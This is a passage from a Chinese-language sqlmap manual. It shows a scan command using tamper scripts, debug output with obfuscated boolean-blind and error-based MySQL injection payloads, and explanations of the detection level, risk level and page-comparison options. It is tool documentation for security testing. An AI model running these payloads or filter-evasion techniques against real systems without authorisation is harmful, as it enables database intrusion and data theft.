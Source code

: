 ```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONCAT(cHar(
58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/**/elsE/**/0/**/
ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/information_schema.tables/**/
group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING
clause' injectable
[...]
```

# 探测

**探测等级**

参数：`–level`

共有五个等级，默认为`1，sqlmap`使用的`payload`可以在`xml/payloads.xml`中看到，你也可以根据相应的格式添加自己的`payload`。

这个参数不仅影响使用哪些`payload`同时也会影响测试的注入点，`GET`和`POST`的数据都会测试，`HTTP Cookie`在`level`为2的时候

就会测试，`HTTP User-Agent/Referer`头在`level`为3的时候就会测试。

总之在你不确定哪个`payload`或者参数为注入点的时候，为了保证全面性，建议使用高的`level`值。

**风险等级**

参数：`–risk`

共有四个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。

在有些时候，例如在UPDATE的语句中，注入一个OR的测试语句，可能导致更新的整个表，可能造成很大的风险。

测试的语句同样可以在`xml/payloads.xml`中找到，你也可以自行添加`payload`。

**页面比较**

参数：`–string,–not-string,–regexp,–code`

默认情况下sqlmap通过判断返回页面的不同来判断真假，但有时候这会产生误差，因为有的页面在每次刷新的时候都会返回不同的代码，

比如页面当中包含一个动态的广告或者其他内容，这会导致sqlmap的误判。此时用户可以提供一个字符串或者一段正则匹配，

在原始页面与真条件下的页面都存在的字符串，而错误页面中不存在（使用–string参数添加字符串，–regexp添加正则），
